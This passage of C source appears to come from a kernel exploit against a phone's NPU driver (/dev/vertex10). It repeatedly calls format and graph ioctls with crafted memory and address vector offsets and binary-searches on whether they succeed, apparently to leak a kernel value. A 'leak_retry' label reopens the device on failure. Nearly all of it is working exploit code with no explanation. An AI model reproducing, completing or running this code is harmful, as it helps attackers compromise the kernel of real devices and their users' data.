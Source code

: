 ```
        npu_fd = -1;
        goto leak_retry;
    }

    unsigned long long old = g;
    format.channels = g;
    res = npu_format_ioctl(&format);
    while (1) {
        if (!res) {
            h = g - 1;
            g = (h + l)/2;
        } else {
            l = g + 1;
            g = (h + l) / 2;
            close(npu_fd);
            fd_clear();

            if ((npu_fd = open("/dev/vertex10", O_RDONLY)) < 0) {
                perror("open(\"/dev/vertext10\") : ");
                goto leak_retry;
            }

            ncp_page->memory_vector_offset = 0x200;
            ncp_page->memory_vector_cnt = 0x1;
            ncp_page->address_vector_offset = off;
            ncp_page->address_vector_cnt = 0x1;
            if (npu_graph_ioctl() < 0) {
                close(npu_fd);
                npu_fd = -1;
                goto leak_retry;
            }
        }
        if (old == g) {
            break;
        }
        old = g;
        memset(&format, 0, sizeof(format));
        format.stride = 0x0;
        format.cstride =  0x0;
        format.height = 1;
        format.width = 1;
        format.pixel_format = 8;
        format.channels = g;
        res = npu_format_test(&format);
    }
  
    close(npu_fd);
    npu_fd = -1;
    return g > 0 ? g+1 : 0;
}

```
